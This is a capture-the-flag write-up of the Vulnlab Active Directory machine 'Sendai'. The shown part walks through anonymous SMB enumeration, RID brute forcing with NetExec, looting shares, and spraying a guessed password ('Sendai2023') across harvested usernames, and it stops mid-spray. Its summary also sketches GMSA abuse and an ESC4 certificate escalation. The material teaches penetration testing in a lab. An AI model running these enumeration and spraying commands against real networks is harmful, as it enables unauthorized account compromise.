




## Summary

The box starts with a `null session` on a `SMB` share which shows that `IPC$` is readable. This leads to `RID Brute Forcing` to `harvest usernames`. Using the `adcs` module of `NetExec` can also give an early hint about `Active Directory Certificate Services (AD CS)`. Spraying the freshly gathered usernames against `SMB` shows that `3 accounts` have set the `STATUS_PASSWORD_MUST_CHANGE` flag on their accounts. Further enumeration of the `SMB` shares reveals a few documents which give hints about how passwords should be created and knowing `xct's` password creation behavior makes it possible to guess the password `Sendai2023` which matches for `Susan.Harper`. Have a pair of credentials makes it possible to `reset` her password and having actually working credentials after it. Dumping the `Active Directory` configuration using `BloodHound` clears up the attack path. She is member of the group `SUPPORT@SENDAI.VL` which has `GenericAll` permissions on the `ADMSVC@SENDAI.VL` group which then leads to `MGTSVC$@SENDAI.VL` by reading `Group Managed Service Accounts (GSMA)` passwords. This enables the possibility of using `CanPSRemote` permissions to access the box and grab the `user.txt`. For `privilege escalation` the tool `PrivescCheck` can be used to find `credentials` for the user `Clifford.Davey`. Performing another check for `vulnerable permissions` or `vulnerable templates` shows `ESC4` as `privesc vector` which then again leads to `NT AUTHORITY/SYSTEM` privileges and to the `root.txt`.

## Table of Contents

- [Reconnaissance](#reconnaissance)
  - [Port Scanning](#port-scanning)
  - [Enumeration of Port 443/TCP](#enumeration-of-Port-443tcp)
- [Domain Enumeration](#domain-enumeration)
- [Enumeration of Port 445/TCP](#enumeration-of-port-445tcp)
- [RID Brute Forcing](#rid-brute-forcing)
- [Further SMB Share Enumeration](#further-smb-share-enumeration)
- [Analysing the Loot](#analysing-the-loot)
- [Password Reset](#password-reset)
- [Authenticated SMB Enumeration](#authenticated-smb-enumeration)
- [Active Directory Certificate Services (AD CS)](#active-directory-certificate-services-ad-cs)
- [Active Directory Enumeration](#active-directory-enumeration)
- [Foothold](#foothold)
  - [Group Managed Service Accounts (GMSA)](#group-managed-service-accounts-gmsa)
  - [Pass-The-Hash](#pass-the-hash)
- [user.txt](#usertxt)
- [Enumeration](#enumeration)
  - [PrivescCheck](#privesccheck)
- [Privilege Escalation](#privilege-escalation)
  - [Active Directory Certificate Services (AD CS) Domain Escalation ESC4](#active-directory-certificate-services-ad-cs-domain-escalation-esc4)
- [root.txt](#roottxt)

## Reconnaissance

### Port Scanning

As usual `xct` already provided the `ports` in the wiki.

- [https://wiki.vulnlab.com/guidance/medium/sendai](https://wiki.vulnlab.com/guidance/medium/sendai)

```c
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
443/tcp  open  https
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
```

### Enumeration of Port 443/TCP

We started with enumerating port `443/TCP`, checked the certificate and got the name of the `domain controller` from there.

- [https://10.10.100.198/](https://10.10.100.198/)



We added it to our `/etc/hosts` file and also `sendai.vl` for convenience reasons.

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.10.100.198   sendai.vl
10.10.100.198   dc.sendai.vl
```

## Domain Enumeration

To make sure that we don't miss anything we fired up `enum4linux-ng` and got a quick domain overview.

```c
┌──(kali㉿kali)-[~/opt/01_information_gathering/enum4linux-ng]
└─$ python3 enum4linux-ng.py 10.10.100.198
ENUM4LINUX - next generation (v1.3.1)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.10.100.198
[*] Username ......... ''
[*] Random Username .. 'yiwemlph'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 ======================================
|    Listener Scan on 10.10.100.198    |
 ======================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 =====================================================
|    Domain Information via LDAP for 10.10.100.198    |
 =====================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: sendai.vl

 ============================================================
|    NetBIOS Names and Workgroup/Domain for 10.10.100.198    |
 ============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ==========================================
|    SMB Dialect Check on 10.10.100.198    |
 ==========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:                                                                                                                                                                                                                         
  SMB 1.0: false                                                                                                                                                                                                                            
  SMB 2.02: true                                                                                                                                                                                                                            
  SMB 2.1: true                                                                                                                                                                                                                             
  SMB 3.0: true                                                                                                                                                                                                                             
  SMB 3.1.1: true                                                                                                                                                                                                                           
Preferred dialect: SMB 3.0                                                                                                                                                                                                                  
SMB1 only: false                                                                                                                                                                                                                            
SMB signing required: true                                                                                                                                                                                                                  

 ============================================================
|    Domain Information via SMB session for 10.10.100.198    |
 ============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: DC                                                                                                                                                                                                                   
NetBIOS domain name: SENDAI                                                                                                                                                                                                                 
DNS domain: sendai.vl                                                                                                                                                                                                                       
FQDN: dc.sendai.vl                                                                                                                                                                                                                          
Derived membership: domain member                                                                                                                                                                                                           
Derived domain: SENDAI                                                                                                                                                                                                                      

 ==========================================
|    RPC Session Check on 10.10.100.198    |
 ==========================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for random user
[+] Server allows session using username 'yiwemlph', password ''
[H] Rerunning enumeration with user 'yiwemlph' might give more results

 ====================================================
|    Domain Information via RPC for 10.10.100.198    |
 ====================================================
[+] Domain: SENDAI
[+] Domain SID: S-1-5-21-3085872742-570972823-736764132
[+] Membership: domain member

 ================================================
|    OS Information via RPC for 10.10.100.198    |
 ================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                                                                                                                                                                                    
OS version: '10.0'                                                                                                                                                                                                                          
OS release: ''                                                                                                                                                                                                                              
OS build: '20348'                                                                                                                                                                                                                           
Native OS: not supported                                                                                                                                                                                                                    
Native LAN manager: not supported                                                                                                                                                                                                           
Platform id: null                                                                                                                                                                                                                           
Server type: null                                                                                                                                                                                                                           
Server type string: null                                                                                                                                                                                                                    

 ======================================
|    Users via RPC on 10.10.100.198    |
 ======================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED

 =======================================
|    Groups via RPC on 10.10.100.198    |
 =======================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': STATUS_ACCESS_DENIED

 =======================================
|    Shares via RPC on 10.10.100.198    |
 =======================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user

 ==========================================
|    Policies via RPC for 10.10.100.198    |
 ==========================================
[*] Trying port 445/tcp
[-] SMB connection error on port 445/tcp: STATUS_ACCESS_DENIED
[*] Trying port 139/tcp
[-] SMB connection error on port 139/tcp: session failed

 ==========================================
|    Printers via RPC for 10.10.100.198    |
 ==========================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

Completed after 6.76 seconds
```

## Enumeration of Port 445/TCP

Enumeration of port `445/TCP` revealed a readable `IPC$` share while using a `null session`. Which meant that we could use `RID Brute Forcing` to gather `usernames`.

```c
┌──(kali㉿kali)-[/media/…/InfoSec/Vulnlab/Machines/Sendai]
└─$ netexec smb 10.10.100.198 -u ' ' -p '' --shares
SMB         10.10.100.198   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.10.100.198   445    DC               [+] sendai.vl\ : 
SMB         10.10.100.198   445    DC               [*] Enumerated shares
SMB         10.10.100.198   445    DC               Share           Permissions     Remark
SMB         10.10.100.198   445    DC               -----           -----------     ------
SMB         10.10.100.198   445    DC               ADMIN$                          Remote Admin
SMB         10.10.100.198   445    DC               C$                              Default share
SMB         10.10.100.198   445    DC               config                          
SMB         10.10.100.198   445    DC               IPC$            READ            Remote IPC
SMB         10.10.100.198   445    DC               NETLOGON                        Logon server share 
SMB         10.10.100.198   445    DC               sendai          READ            company share
SMB         10.10.100.198   445    DC               SYSVOL                          Logon server share 
SMB         10.10.100.198   445    DC               Users           READ
```

## RID Brute Forcing

```c
┌──(kali㉿kali)-[/media/…/InfoSec/Vulnlab/Machines/Sendai]
└─$ netexec smb 10.10.100.198 -u ' ' -p '' --shares --rid-brute
SMB         10.10.100.198   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.10.100.198   445    DC               [+] sendai.vl\ : 
SMB         10.10.100.198   445    DC               [*] Enumerated shares
SMB         10.10.100.198   445    DC               Share           Permissions     Remark
SMB         10.10.100.198   445    DC               -----           -----------     ------
SMB         10.10.100.198   445    DC               ADMIN$                          Remote Admin
SMB         10.10.100.198   445    DC               C$                              Default share
SMB         10.10.100.198   445    DC               config                          
SMB         10.10.100.198   445    DC               IPC$            READ            Remote IPC
SMB         10.10.100.198   445    DC               NETLOGON                        Logon server share 
SMB         10.10.100.198   445    DC               sendai          READ            company share
SMB         10.10.100.198   445    DC               SYSVOL                          Logon server share 
SMB         10.10.100.198   445    DC               Users           READ            
SMB         10.10.100.198   445    DC               498: SENDAI\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.100.198   445    DC               500: SENDAI\Administrator (SidTypeUser)
SMB         10.10.100.198   445    DC               501: SENDAI\Guest (SidTypeUser)
SMB         10.10.100.198   445    DC               502: SENDAI\krbtgt (SidTypeUser)
SMB         10.10.100.198   445    DC               512: SENDAI\Domain Admins (SidTypeGroup)
SMB         10.10.100.198   445    DC               513: SENDAI\Domain Users (SidTypeGroup)
SMB         10.10.100.198   445    DC               514: SENDAI\Domain Guests (SidTypeGroup)
SMB         10.10.100.198   445    DC               515: SENDAI\Domain Computers (SidTypeGroup)
SMB         10.10.100.198   445    DC               516: SENDAI\Domain Controllers (SidTypeGroup)
SMB         10.10.100.198   445    DC               517: SENDAI\Cert Publishers (SidTypeAlias)
SMB         10.10.100.198   445    DC               518: SENDAI\Schema Admins (SidTypeGroup)
SMB         10.10.100.198   445    DC               519: SENDAI\Enterprise Admins (SidTypeGroup)
SMB         10.10.100.198   445    DC               520: SENDAI\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.100.198   445    DC               521: SENDAI\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.100.198   445    DC               522: SENDAI\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.100.198   445    DC               525: SENDAI\Protected Users (SidTypeGroup)
SMB         10.10.100.198   445    DC               526: SENDAI\Key Admins (SidTypeGroup)
SMB         10.10.100.198   445    DC               527: SENDAI\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.100.198   445    DC               553: SENDAI\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.100.198   445    DC               571: SENDAI\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.100.198   445    DC               572: SENDAI\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.100.198   445    DC               1000: SENDAI\DC$ (SidTypeUser)
SMB         10.10.100.198   445    DC               1101: SENDAI\DnsAdmins (SidTypeAlias)
SMB         10.10.100.198   445    DC               1102: SENDAI\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.100.198   445    DC               1103: SENDAI\SQLServer2005SQLBrowserUser$DC (SidTypeAlias)
SMB         10.10.100.198   445    DC               1104: SENDAI\sqlsvc (SidTypeUser)
SMB         10.10.100.198   445    DC               1105: SENDAI\websvc (SidTypeUser)
SMB         10.10.100.198   445    DC               1107: SENDAI\staff (SidTypeGroup)
SMB         10.10.100.198   445    DC               1108: SENDAI\Dorothy.Jones (SidTypeUser)
SMB         10.10.100.198   445    DC               1109: SENDAI\Kerry.Robinson (SidTypeUser)
SMB         10.10.100.198   445    DC               1110: SENDAI\Naomi.Gardner (SidTypeUser)
SMB         10.10.100.198   445    DC               1111: SENDAI\Anthony.Smith (SidTypeUser)
SMB         10.10.100.198   445    DC               1112: SENDAI\Susan.Harper (SidTypeUser)
SMB         10.10.100.198   445    DC               1113: SENDAI\Stephen.Simpson (SidTypeUser)
SMB         10.10.100.198   445    DC               1114: SENDAI\Marie.Gallagher (SidTypeUser)
SMB         10.10.100.198   445    DC               1115: SENDAI\Kathleen.Kelly (SidTypeUser)
SMB         10.10.100.198   445    DC               1116: SENDAI\Norman.Baxter (SidTypeUser)
SMB         10.10.100.198   445    DC               1117: SENDAI\Jason.Brady (SidTypeUser)
SMB         10.10.100.198   445    DC               1118: SENDAI\Elliot.Yates (SidTypeUser)
SMB         10.10.100.198   445    DC               1119: SENDAI\Malcolm.Smith (SidTypeUser)
SMB         10.10.100.198   445    DC               1120: SENDAI\Lisa.Williams (SidTypeUser)
SMB         10.10.100.198   445    DC               1121: SENDAI\Ross.Sullivan (SidTypeUser)
SMB         10.10.100.198   445    DC               1122: SENDAI\Clifford.Davey (SidTypeUser)
SMB         10.10.100.198   445    DC               1123: SENDAI\Declan.Jenkins (SidTypeUser)
SMB         10.10.100.198   445    DC               1124: SENDAI\Lawrence.Grant (SidTypeUser)
SMB         10.10.100.198   445    DC               1125: SENDAI\Leslie.Johnson (SidTypeUser)
SMB         10.10.100.198   445    DC               1126: SENDAI\Megan.Edwards (SidTypeUser)
SMB         10.10.100.198   445    DC               1127: SENDAI\Thomas.Powell (SidTypeUser)
SMB         10.10.100.198   445    DC               1128: SENDAI\ca-operators (SidTypeGroup)
SMB         10.10.100.198   445    DC               1129: SENDAI\admsvc (SidTypeGroup)
SMB         10.10.100.198   445    DC               1130: SENDAI\mgtsvc$ (SidTypeUser)
SMB         10.10.100.198   445    DC               1131: SENDAI\support (SidTypeGroup)
```

## Further SMB Share Enumeration

After getting a bunch of usernames we checked the accessible `sendai` share and grabbed all the files we could find.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Sendai/files]
└─$ smbclient //10.10.100.198/sendai
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \>
```

```c
smb: \> dir
  .                                   D        0  Tue Jul 18 13:31:04 2023
  ..                                DHS        0  Wed Jul 19 10:11:25 2023
  hr                                  D        0  Tue Jul 11 08:58:19 2023
  incident.txt                        A     1372  Tue Jul 18 13:34:15 2023
  it                                  D        0  Tue Jul 18 09:16:46 2023
  legal                               D        0  Tue Jul 11 08:58:23 2023
  security                            D        0  Tue Jul 18 09:17:35 2023
  transfer                            D        0  Tue Jul 11 09:00:20 2023

                7309822 blocks of size 4096. 604547 blocks available
```

```c
smb: \> get incident.txt 
getting file \incident.txt of size 1372 as incident.txt (37.2 KiloBytes/sec) (average 37.2 KiloBytes/sec)
```

```c
smb: \it\> dir
  .                                   D        0  Tue Jul 18 09:16:46 2023
  ..                                  D        0  Tue Jul 18 13:31:04 2023
  Bginfo64.exe                        A  2774440  Tue Jul 18 09:16:43 2023
  PsExec64.exe                        A   833472  Tue Jul 18 09:16:38 2023

                7309822 blocks of size 4096. 623525 blocks available
```

```c
smb: \security\> dir
  .                                   D        0  Tue Jul 18 09:17:35 2023
  ..                                  D        0  Tue Jul 18 13:31:04 2023
  guidelines.txt                      A     4538  Tue Jul 18 09:18:34 2023

                7309822 blocks of size 4096. 623429 blocks available
```

```c
smb: \security\> get guidelines.txt 
getting file \security\guidelines.txt of size 4538 as guidelines.txt (79.1 KiloBytes/sec) (average 62.7 KiloBytes/sec)
```

The `transfer` folder had some `folders` named according to some usernames.

```c
smb: \transfer\> dir
  .                                   D        0  Tue Jul 11 09:00:20 2023
  ..                                  D        0  Tue Jul 18 13:31:04 2023
  anthony.smith                       D        0  Tue Jul 11 08:59:50 2023
  clifford.davey                      D        0  Tue Jul 11 09:00:06 2023
  elliot.yates                        D        0  Tue Jul 11 08:59:26 2023
  lisa.williams                       D        0  Tue Jul 11 08:59:34 2023
  susan.harper                        D        0  Tue Jul 11 08:59:39 2023
  temp                                D        0  Tue Jul 11 09:00:16 2023
  thomas.powell                       D        0  Tue Jul 11 08:59:45 2023

                7309822 blocks of size 4096. 626647 blocks available
```

We checked our already existing `custom list` of `usernames` which we created after the successful `RID Brute Forcing`.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Sendai/files]
└─$ cat usernames.txt 
sqlsvc
websvc
Dorothy.Jones
Kerry.Robinson
Naomi.Gardner
Stephen.Simpson
Marie.Gallagher
Kathleen.Kelly
Norman.Baxter
Jason.Brady
Malcolm.Smith
Ross.Sullivan
Declan.Jenkins
Lawrence.Grant
Leslie.Johnson
Megan.Edwards
mgtsvc$
anthony.smith
clifford.davey
elliot.yates
lisa.williams
susan.harper
thomas.powell
```

## Analysing the Loot

Since we had a list of `usernames`, we started carefully reading the downloaded files and instructions to find some `credentials` or `hints` on how the passwords should be created for `new users` on the domain.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Sendai/files]
└─$ cat guidelines.txt 
Company: Sendai
User Behavior Guidelines

Effective Date: [Insert Date]
Version: 1.0

Table of Contents:

Introduction

General Guidelines

Security Guidelines

Internet and Email Usage Guidelines

Data Management Guidelines

Software Usage Guidelines

Hardware Usage Guidelines

Conclusion

Introduction:

These User Behavior Guidelines are established to ensure the efficient and secure use of information technology resources within Sendai. By adhering to these guidelines, users can contribute to maintaining a productive and secure IT environment. It is the responsibility of every employee to read, understand, and follow these guidelines.

General Guidelines:
2.1. Password Security:
a. Users must choose strong passwords that are difficult to guess.
b. Passwords should be changed regularly and not shared with others.
c. Users should never write down their passwords or store them in easily accessible locations.

2.2. User Accounts:
a. Users must not share their user accounts with others.
b. Each user is responsible for any activities carried out using their account.

2.3. Reporting Incidents:
a. Users must promptly report any suspected security incidents or unauthorized access to the IT department.
b. Users should report any IT-related issues to the IT support team for resolution.

2.4. Physical Security:
a. Users should not leave their workstations unlocked and unattended.
b. Confidential information and sensitive documents should be stored securely.

Security Guidelines:
3.1. Malicious Software:
a. Users must not download or install unauthorized software on company devices.
b. Users should regularly update their devices with the latest security patches and antivirus software.

3.2. Social Engineering:
a. Users should be cautious of phishing emails, phone calls, or messages.
b. Users must not share sensitive information or credentials through untrusted channels.

3.3. Data Backup:
a. Users should regularly back up their important files and data.
b. Critical data should be stored on secure network drives or cloud storage.

Internet and Email Usage Guidelines:
4.1. Acceptable Use:
a. Internet and email usage should be for work-related purposes.
b. Users must not access or download inappropriate or unauthorized content.

4.2. Email Etiquette:
a. Users should maintain professionalism in all email communications.
b. Users should avoid forwarding chain emails or unauthorized attachments.

4.3. Email Security:
a. Users should exercise caution when opening email attachments or clicking on links from unknown sources.
b. Confidential information must not be sent via unencrypted email.

Data Management Guidelines:
5.1. Data Classification:
a. Users must classify data according to its sensitivity level.
b. Users should handle and store sensitive data in accordance with the company's data protection policies.

5.2. Data Privacy:
a. Users must respect the privacy of personal and sensitive information.
b. Unauthorized disclosure or sharing of personal data is strictly prohibited.

Software Usage Guidelines:
6.1. Authorized Software:
a. Users must only use authorized software and adhere to licensing agreements.
b. Users should not install or use unauthorized or pirated software.

6.2. Software Updates:
a. Users should regularly update their software to benefit from the latest features and security patches.
b. Automatic updates should be enabled whenever possible.

Hardware Usage Guidelines:
7.1. Equipment Care:
a. Users should handle company hardware with care and report any damages or malfunctions promptly.
b. Users must not attempt to repair or modify company equipment without proper authorization.

7.2. Personal Devices:
a. Users should not connect personal devices to the company network without prior approval from the IT department.
b. Personal devices used for work purposes must comply with company security policies.

Conclusion:
By following these User Behavior Guidelines, Sendai employees contribute to the overall security, productivity, and effectiveness of the company's IT infrastructure. Users should regularly review these guidelines and seek clarification from the IT department whenever necessary.

Failure to comply with these guidelines may result in disciplinary action, including the suspension of IT privileges or other appropriate measures.

For any questions or concerns regarding these guidelines, please contact the IT department at [Contact Information].
```

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Sendai/files]
└─$ cat incident.txt 
Dear valued employees,

We hope this message finds you well. We would like to inform you about an important security update regarding user account passwords. Recently, we conducted a thorough penetration test, which revealed that a significant number of user accounts have weak and insecure passwords.

To address this concern and maintain the highest level of security within our organization, the IT department has taken immediate action. All user accounts with insecure passwords have been expired as a precautionary measure. This means that affected users will be required to change their passwords upon their next login.

We kindly request all impacted users to follow the password reset process promptly to ensure the security and integrity of our systems. Please bear in mind that strong passwords play a crucial role in safeguarding sensitive information and protecting our network from potential threats.

If you need assistance or have any questions regarding the password reset procedure, please don't hesitate to reach out to the IT support team. They will be more than happy to guide you through the process and provide any necessary support.

Thank you for your cooperation and commitment to maintaining a secure environment for all of us. Your vigilance and adherence to robust security practices contribute significantly to our collective safety.
```

In addition we used our `custom list` of `usernames` to see if there are any hints about the current status of the `accounts` like the `flag` to `change their password`.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Sendai/files]
└─$ netexec smb 10.10.100.198 -u usernames.txt -p '' --shares  
SMB         10.10.100.198   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.10.100.198   445    DC               [-] sendai.vl\sqlsvc: STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\websvc: STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\Dorothy.Jones: STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\Kerry.Robinson: STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\Naomi.Gardner: STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\Stephen.Simpson: STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\Marie.Gallagher: STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\Kathleen.Kelly: STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\Norman.Baxter: STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\Jason.Brady: STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\Malcolm.Smith: STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\Ross.Sullivan: STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\Declan.Jenkins: STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\Lawrence.Grant: STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\Leslie.Johnson: STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\Megan.Edwards: STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\mgtsvc$: STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\anthony.smith: STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\clifford.davey: STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\elliot.yates: STATUS_PASSWORD_MUST_CHANGE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\lisa.williams: STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\susan.harper: STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\thomas.powell: STATUS_PASSWORD_MUST_CHANGE
```

And indeed some users had the `STATUS_PASSWORD_MUST_CHANGE` flag set. Based on the hints in the notes and `xct's` known `behavior` regarding passwords, we made a guess and got a hit.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Sendai/files]
└─$ cat passwords.txt 
Sendai2023
```

| Password   |
| ---------- |
| Sendai2023 |

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Sendai/files]
└─$ netexec smb 10.10.100.198 -u usernames.txt -p passwords.txt --shares  
SMB         10.10.100.198   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.10.100.198   445    DC               [-] sendai.vl\sqlsvc:Sendai2023 STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\websvc:Sendai2023 STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\Dorothy.Jones:Sendai2023 STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\Kerry.Robinson:Sendai2023 STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\Naomi.Gardner:Sendai2023 STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\Stephen.Simpson:Sendai2023 STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\Marie.Gallagher:Sendai2023 STATUS_LOGON_FAILURE 
SMB         10.10.100.198   445    DC               [-] sendai.vl\Kathleen.Kelly:Sendai2023 STATUS_LOGON_FAILURE 
